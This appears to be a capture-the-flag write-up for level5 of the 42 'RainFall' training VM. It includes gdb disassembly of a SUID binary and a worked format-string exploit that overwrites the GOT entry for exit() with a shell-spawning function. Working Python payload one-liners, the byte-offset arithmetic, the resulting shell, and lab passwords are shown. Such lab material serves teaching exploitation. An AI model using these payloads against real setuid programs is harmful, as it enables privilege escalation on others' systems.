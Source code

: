 Login as `level5`.
```shell
┌──$ [~/42/2021/rainfall]
└─>  ssh 192.168.1.28 -p 4242 -l level5
level5@192.168.1.28's password: 0f99ba5e9c446258a69b290407a6c60859e9c2d25b26575cafc9ae6d75e9456a
```
A `SUID` executable is located in the home directory.
```shell
level5@RainFall:~$ ls -l
total 8
-rwsr-s---+ 1 level6 users 5385 Mar  6  2016 level5
```
Examine all defined functions.
```gdb
(gdb) info functions
[...]
0x080484a4  o
0x080484c2  n
0x08048504  main
[...]
```
`o()` function execute systemcall running a shell.
```gdb
(gdb) disassemble o
Dump of assembler code for function o:
   0x080484a4 <+0>:	push   %ebp
   0x080484a5 <+1>:	mov    %esp,%ebp
   0x080484a7 <+3>:	sub    $0x18,%esp
   0x080484aa <+6>:	movl   $0x80485f0,(%esp)
   0x080484b1 <+13>:	call   0x80483b0 <system@plt>
   0x080484b6 <+18>:	movl   $0x1,(%esp)
   0x080484bd <+25>:	call   0x8048390 <_exit@plt>
End of assembler dump.
```
`n()` function gets user input, print it and exit with exit code 1. Obviously the address of `exit()` should be overwritten with address of `o()`.
```gdb
(gdb) disassemble n
   [...]
   0x080484f8 <+54>:	movl   $0x1,(%esp)
   0x080484ff <+61>:	call   0x80483d0 <exit@plt>
```
As described in level4, there are two method to write arbitrary data to potentially carefully-selected address - overwrite `exit()`'s address by `o()`'s address.
```shell
level5@RainFall:~$ (python -c 'print "\x38\x98\x04\x08" + "%0134513824x%4$n"'; echo "cat /home/user/level6/.pass") | ./level5
000000000000000000000000000000000000000000000000000000000000000[...]000000000000000000000000000000000000000200
d3b7bf1025225bd715fa8ccb54ef06ca70b9125ac855aeab4878217177f41a31
```
exit() = 0x08049838
   o() = 0x080484a4

4 0xa4 164 > 4+4+4+4+x             = 164 (0xa4)  x=148
3 0x84 132 > 4+4+4+4+148+x         = 388 (0x184) x=224
2 0x04   4 > 4+4+4+4+148+224+x     = 516 (0x204) x=128
1 0x08   8 > 4+4+4+4+148+224+128+x = 520 (0x208) x=4
```shell
level5@RainFall:~$ (python -c 'print "\x38\x98\x04\x08" + "\x39\x98\x04\x08" + "\x3a\x98\x04\x08" + "\x3b\x98\x04\x08" + "%1$148x%4$n"+ "%1$224x%5$n" + "%1$128x%6$n" + "%1$4x%7$n"'; cat -) | ./level5
89:;                                                                                                                                                 200                                                                                                                                                                                                                             200                                                                                                                             200 200
whoami
level6
cat /home/user/level6/.pass
d3b7bf1025225bd715fa8ccb54ef06ca70b9125ac855aeab4878217177f41a31
```
